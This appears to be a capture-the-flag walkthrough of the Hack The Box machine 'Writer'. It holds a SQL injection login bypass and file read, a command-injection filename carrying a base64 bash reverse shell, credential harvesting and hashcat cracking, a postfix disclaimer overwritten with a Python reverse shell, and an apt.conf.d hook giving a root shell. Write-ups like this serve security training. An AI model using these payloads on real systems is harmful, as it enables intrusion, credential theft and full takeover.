


```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Inital Foothold

We use dirb to enumerate the webpage:
```
┌──(kali㉿kali)-[~]
└─$ dirb http://writer.htb/ /usr/share/wordlists/dirb/big.txt -r
[...]
GENERATED WORDS: 20458                                                         

---- Scanning URL: http://writer.htb/ ----
+ http://writer.htb/about (CODE:200|SIZE:3522)                                                                                                                                                                                                                           
+ http://writer.htb/administrative (CODE:200|SIZE:1443)                                                                                                                                                                                                                  
+ http://writer.htb/contact (CODE:200|SIZE:4905)                                                                                                                                                                                                                         
+ http://writer.htb/dashboard (CODE:302|SIZE:208) 
[...]
```
and find a login-form on http://writer.htb/administrative


So we fire up `sqlmap-wizard` to find a valid authentication bypass:

```
Parameter: uname (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: uname=-6697' OR 5954=5954-- YHdG&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=daGe' AND (SELECT 4506 FROM (SELECT(SLEEP(5)))yXVr)-- DQOi&password=
```
We can set our username to `-6697' OR 5954=5954-- YHdG` and put anything as the password to login and land on http://writer.htb/dashboard:


Intercepting sqlmap with burpsuite via the `--proxy`parameter we were able to modify our payload to read arbitrary files like this:

```
uname=admin'%20UNION%20ALL%20SELECT%20NULL,LOAD_FILE('/var/www/writer.htb/writer.wsgi'),NULL,NULL,NULL,NULL--%20&password=asdf
```

We retrieved numerous files, for example the /var/www/writer.htb/writer.wsgi:

```py
#!/usr/bin/python
import sys
import logging
import random
import os

# Define logging
logging.basicConfig(stream=sys.stderr)
sys.path.insert(0,"/var/www/writer.htb/")

# Import the __init__.py from the app folder
from writer import app as application
application.secret_key = os.environ.get("SECRET_KEY", "")
```

Which lead us to `/var/www/writer.htb/writer/__init__.py`:

```py
[...]
#Define connection for database
def connections():
    try:
        connector = mysql.connector.connect(user='admin', password='ToughPasswordToCrack', host='127.0.0.1', database='writer')
        return connector
    except mysql.connector.Error as err:
        if err.errno == errorcode.ER_ACCESS_DENIED_ERROR:
            return ("Something is wrong with your db user name or password!")
        elif err.errno == errorcode.ER_BAD_DB_ERROR:
            return ("Database does not exist")
        else:
            return ("Another exception, returning!")
    else:
        print ('Connection to DB is ready!')

[...]
```

Inside of it we found `ToughPasswordToCrack` which we could use as the password for SMB with the user `kyle` (which we got from /etc/passwd).

## User

The `__init__.py` allowed us also to get a further understanding of the application running on the server.

```py
[...]
def add_story():
    if request.method == "POST":
        if request.files['image']:
            image = request.files['image']
            if ".jpg" in image.filename:
                path = os.path.join('/var/www/writer.htb/writer/static/img/', image.filename)
                image.save(path)
                image = "/img/{}".format(image.filename)
            else:
                error = "File extensions must be in .jpg!"
                return render_template('add.html', error=error)

        if request.form.get('image_url'):
            image_url = request.form.get('image_url')
            if ".jpg" in image_url:
                try:
                    local_filename, headers = urllib.request.urlretrieve(image_url)
                    os.system("mv {} {}.jpg".format(local_filename, local_filename))
                    image = "{}.jpg".format(local_filename)
                    try:
                        im = Image.open(image) 
                        im.verify()
                        im.close()
                        image = image.replace('/tmp/','')
                        os.system("mv /tmp/{} /var/www/writer.htb/writer/static/img/{}".format(image, image))
                        image = "/img/{}".format(image)
                    except PIL.UnidentifiedImageError:
                        os.system("rm {}".format(image))
                        error = "Not a valid image file!"
                        return render_template('add.html', error=error)
                except:
                    error = "Issue uploading picture"
                    return render_template('add.html', error=error)
            else:
                error = "File extensions must be in .jpg!"
                return render_template('add.html', error=error)
[...]
```

So basically this only checks if there is a `.jpg` in the file name, if so it does some os.system calls where it moves files around.
We can make use of this by exploiting the filename.

First we create our empty file with this name:
```
test.jpg;`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjYxLzQyNDIgMD4mMQ==|base64 -d|bash`;
```
The base64 encoded part is a simply reverse shell:
```
/bin/bash -i >& /dev/tcp/10.10.14.61/4242 0>&1
```
We then upload it to the webpage via the "edit story" option on the dashboard.
After we saved it we press "edit" again but CAREFUL this time we start our interceptor in burpsuite before we hit save.

Inside the burpsuite request we change line32, the image_url parameter to this:
```
------WebKitFormBoundarylheUOM2LE5BSyVAa

Content-Disposition: form-data; name="image_url"

file:///var/www/writer.htb/writer/static/img/test.jpg;`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjYxLzQyNDIgMD4mMQ==|base64 -d|bash`;#
```


We catch the reverse shell on our host mashine with:
```
nc -nvlp 4242
```

In the next step we make use of the credentials we found earlier:
We got the user "kyle" from the /etc/passwd file and the password "ToughPasswordToCrack" from the `__init__.py`.
We use those now to enumerate the smb shares on writer.htb with smbmap like this:

```
smbmap -u kyle -p ToughPasswordToCrack -H 10.129.190.229
```


We can mount the writer2_project inside the file explorer on kali by pasting `smb://writer.htb/writer2_project/ in file explorer` to the address bar. Filling the prompt using the smb credentials from earlier again.

We find the settings.py inside the writerv2 folder:
```py
[...]
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'OPTIONS': {
            'read_default_file': '/etc/mysql/my.cnf',
        },
    }
}
[...]
```
Which tells us, that there is a mysql server running with the default config file in /etc/mysql/my.cnf so we have a look inside of it with the sql file load in burpsuite and find some more credentials:

/etc/mysql/my.cnf
```
[...]
[client]
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8
```

We now utilise our reverse shell from earlier to access the mysql database "dev" like this:
```
mysql -udjangouser -pDjangoSuperPassword dev
SELECT * FROM auth_user;
```
and get a password hash for the user kyle:

```
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=
```
Which we can simply crack with hashcat and rockyou:
```
hashcat -m 10000 -a 0 'pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=' ~/Desktop/rockyou.txt
```
(you can find the hashcat mode easily by utilising their docs at: [hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes))

After approx. one minute we get the password:
```
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Django (PBKDF2-SHA256)
Hash.Target......: pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8...uXM4A=
Time.Started.....: Thu Aug 19 14:44:45 2021 (1 min, 0 secs)
Time.Estimated...: Thu Aug 19 14:45:45 2021 (0 secs)
Guess.Base.......: File (/home/kali/Desktop/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      161 H/s (6.08ms) @ Accel:64 Loops:512 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 9728/14344385 (0.07%)
Rejected.........: 0/9728 (0.00%)
Restore.Point....: 9216/14344385 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:259584-259999
Candidates.#1....: rubberducky -> 20072007
```

We can now `ssh kyle@writer.htb` with password: `marcoantonio`.

## Root
Enumerating the file system and running your favorite enumeration scripts we find a cron job running which is also referenced inside the mails in /var/mail/www-data.
We can read them using our previous reverse shell and find:

```
[...]
Subject: Cron <www-data@writer> cd /var/www/writer2_project && python3 manage.py runserver 127.0.0.1:8080

August 19, 2021 - 15:08:02
Django version 3.2.3, using settings 'writerv2.settings'
Starting development server at http://127.0.0.1:8080/
Quit the server with CONTROL-C.
Performing system checks...

System check identified no issues (0 silenced).

August 19, 2021 - 15:10:01
Django version 3.2.3, using settings 'writerv2.settings'
Starting development server at http://127.0.0.1:8080/
Quit the server with CONTROL-C.
Performing system checks...

System check identified no issues (0 silenced).
[...]
```
So every two minutes there is a mail been sent to www-data@writer.htb.

After more enumeration with [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) etc we found out that there is a "filter" workgroup which we are part of:

```
kyle@writer:~$ id
uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)
```

Which can write to the disclaimer script in /etc/postfix:
```
kyle@writer:/etc/postfix$ ls -la
total 140
drwxr-xr-x   5 root root    4096 Jul  9 10:59 .
drwxr-xr-x 102 root root    4096 Jul 28 06:32 ..
-rwxrwxr-x   1 root filter  1021 Aug 19 19:56 disclaimer
-rw-r--r--   1 root root      32 May 13 22:49 disclaimer_addresses
-rw-r--r--   1 root root     749 May 13 22:40 disclaimer.txt
-rw-r--r--   1 root root      60 May 13 22:27 dynamicmaps.cf
drwxr-xr-x   2 root root    4096 Jun 19  2020 dynamicmaps.cf.d
-rw-r--r--   1 root root    1330 May 18 19:41 main.cf
-rw-r--r--   1 root root   27120 May 13 22:27 main.cf.proto
lrwxrwxrwx   1 root root      31 May 13 22:27 makedefs.out -> /usr/share/postfix/makedefs.out
-rw-r--r--   1 root root    6373 Aug 19 19:56 master.cf
-rw-r--r--   1 root root    6208 May 13 22:27 master.cf.proto
-rw-r--r--   1 root root   10268 Jun 19  2020 postfix-files
drwxr-xr-x   2 root root    4096 Jun 19  2020 postfix-files.d
-rwxr-xr-x   1 root root   11532 Jun 19  2020 postfix-script
-rwxr-xr-x   1 root root   29872 Jun 19  2020 post-install
drwxr-xr-x   2 root root    4096 Jun 19  2020 sasl
```

After researching we found out that the disclaimer script is used when sending mails. Since we can send mails and also overwrite the disclaimer script we can make use of this to escalate our privileges to another user:

We created a sendmail.py:

```py                                                                                                            
import smtplib

sender_email = "kyle@writer.htb"
receiver_email = "kyle@writer.htb"
message = """\
Subject: Plz give more privileges

Test_python_sender."""

try:
        server = smtplib.SMTP('127.0.0.1', 25)
        server.ehlo()
        server.sendmail(sender_email, receiver_email, message)
except Exception as e:
        print(e)
finally:
        server.quit()
```
and a disclaimer file:
```bash
#!/bin/sh
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.61",4040));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
After setting up our listener and make disclaimer executeable we just run `cp disclaimer /etc/postfix/disclaimer && python3 send_mail.py` to get a shell as the user "john".

We continued with simply dumping the private ssh key inside of `~/.ssh/id_rsa` and connect back to john with `ssh -i john.key john@writer.htb` where john.key is the private key we just got.
Running [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) again we get some interesting output:

```
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                                                             
  Group john:                                                                                                                                                                                                                  
  Group management:
/etc/apt/apt.conf.d 
```
So because john is a member of the management group we can write inside of /etc/apt/apt.conf.d which is a huge security risk as these configuration files get called everytime apt is running. 
We learned earlier (and [pspy](https://github.com/DominicBreuker/pspy) also confirmed this) that there is another cronjob running `apt get update` as root every two minutes.

So with a little google research and help from this [nice blog entry](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/) we came up with this script to give us a root reverse shell:
```bash
./spam_aptconf.sh                                                                                                                           
#!/bin/bash
while true
do
echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.61",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > /tmp/rev.py
echo 'apt::Update::Post-Invoke {"python3 /tmp/rev.py"}' > /etc/apt/apt.conf.d/pwn
chmod --reference=/etc/apt/apt.conf.d/01autoremove /etc/apt/apt.conf.d/pwn
now=$(date +"%T")
echo $now
done
```
Basically what this script does is creating a python reverse shell file in /tmp/rev.py and a pwn file in /etc/apt/apt.conf.d which calls said rev.py. It also changes the permissions to match the other configuration files which is propably not neccessary.
It also echos the time to make sure it didn't crash on us. The while loop was obligatory as /etc/apt/apt.conf.d gets cleaned by another cronjob from time to time so we just spam our files.
We now just wait for a maximum of two minutes to catch our root reverse shell with a listener.
